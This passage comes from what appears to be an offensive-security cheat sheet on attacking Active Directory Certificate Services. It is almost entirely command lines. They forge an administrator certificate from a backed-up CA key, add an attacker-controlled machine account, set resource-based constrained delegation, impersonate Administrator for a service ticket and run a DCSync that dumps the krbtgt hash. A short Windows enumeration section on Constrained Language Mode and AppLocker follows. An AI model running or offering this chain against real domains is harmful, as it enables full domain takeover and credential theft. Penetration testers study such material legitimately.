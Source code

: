 ```powershell
# - PowerView to Extract Computer SID

# Perform RBCD Attack via LDAP
PassTheCert.exe --server 192.168.210.10 --start-tls --cert-path admin.pfx --cert-password Password123 --rbcd --target "CN=HQDC01,OU=DOMAIN CONTROLLERS,DC=DOMAIN,DC=LOCAL" --sid [SID of machine acc you control]
```

**Linux:**
```bash
# Extract CA Certificate
certipy ca -backup -u 'user@contoso.local' -p 'password' -ca 'ca_name'

# Force Administrator Certificate
certipy forge -ca-pfx [CA].pfx -upn administrator@domain.local -subject 'CN=ADMINISTRATOR,CN=USERS,DC=DOMAIN,DC=LOCAL'

# Extract CRT and KEY files
certipy cert -pfx forged.pfx -nokey -out user.crt
certipy cert -pfx forged.pfx -nocert -out user.key

# Add Attacker Controlled Computer (Or Re-use from previous exploitation, if MAQ == 0)
passthecert.py -action add_computer -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -computer-name OFFSECMACHINE$ -computer-pass SheSellsSeaShellsOnTheSeaShore

# Modify RBCD attribute on Target Machine
passthecert.py -action write_rbcd -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -port 389 -delegate-to [RBCD]$ -delegate-from [TARGET-DC]$

# Request Sevrive Ticket for LDAP Service on DC
getST.py -spn 'LDAP/[DC].domain.local' -impersonate Administrator -dc-ip '[DC IP]' 'domain.local/rbcd$:ThisIsAPassword'

# Load Kerberos Ticket
export KRB5CCNAME=`pwd`/Administrator.ccache

# Perform DCSync
secretsdump.py -user-status -just-dc-ntlm -just-dc-user krbtgt 'lab.local/Administrator@dc.lab.local' -k -no-pass -dc-ip 10.10.10.10 -target-ip 10.10.10.10 
```

General ADCS Side Notes: If PKINIT Authentication is not working, LDAP(s)/Schannel can be used. 

Use the **ldap-shell** flag with certipy.


## Windows Enumeration

Check for CLM
```powershell
$ExecutionCOntext.SessionState.LanguageMode
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections 
```
